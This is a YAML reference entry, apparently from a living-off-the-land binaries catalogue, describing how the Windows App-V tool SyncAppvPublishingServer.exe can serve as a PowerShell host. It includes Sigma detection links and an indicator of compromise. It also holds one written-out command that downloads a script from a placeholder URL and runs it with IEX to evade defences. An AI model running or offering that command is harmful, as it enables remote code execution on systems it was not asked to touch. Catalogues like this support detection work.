 ```yaml
---
Name: SyncAppvPublishingServer.exe
Description: Used by App-v to get App-v server lists
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: SyncAppvPublishingServer.exe "n;(New-Object Net.WebClient).DownloadString('http://some.url/script.ps1') | IEX"
    Description: Example command on how inject Powershell code into the process
    Usecase: Use SyncAppvPublishingServer as a Powershell host to execute Powershell code. Evade defensive counter measures
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 10 1709, Windows 10 1703, Windows 10 1607
    Tags:
      - Execute: Powershell
Full_Path:
  - Path: C:\Windows\System32\SyncAppvPublishingServer.exe
  - Path: C:\Windows\SysWOW64\SyncAppvPublishingServer.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/powershell/powershell_script/posh_ps_syncappvpublishingserver_exe.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/powershell/powershell_module/posh_pm_syncappvpublishingserver_exe.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_lolbin_syncappvpublishingserver_execute_psh.yml
  - IOC: SyncAppvPublishingServer.exe should never be in use unless App-V is deployed
Resources:
  - Link: https://twitter.com/monoxgas/status/895045566090010624
Acknowledgement:
  - Person: Nick Landers
    Handle: '@monoxgas'
---
```

